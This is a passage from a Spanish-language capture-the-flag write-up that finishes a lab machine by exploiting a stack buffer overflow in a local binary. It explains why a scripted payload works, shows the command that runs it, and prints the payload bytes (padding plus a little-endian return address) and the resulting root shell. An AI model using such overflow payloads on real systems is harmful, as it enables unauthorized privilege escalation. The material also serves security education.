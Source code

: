 ***

#### 3. **¿Por qué sí funciona con el script?**

Cuando usas un script, todo el proceso es manejado de manera más controlada:

* **El script asegura que la dirección esté en el formato correcto** (little-endian y con la cantidad correcta de bytes).
* **El script maneja el flujo de entrada de manera consistente**, asegurándose de que no haya caracteres extraños que interfieran.

### Ejecución del exploit

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 exploit.py
```

Info:

```
[*] '/home/astu/secure/bs64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/astu/secure/bs64': pid 163
[*] Enviando payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAk\x13@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
Ingrese el texto: QUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFaxN
$ whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
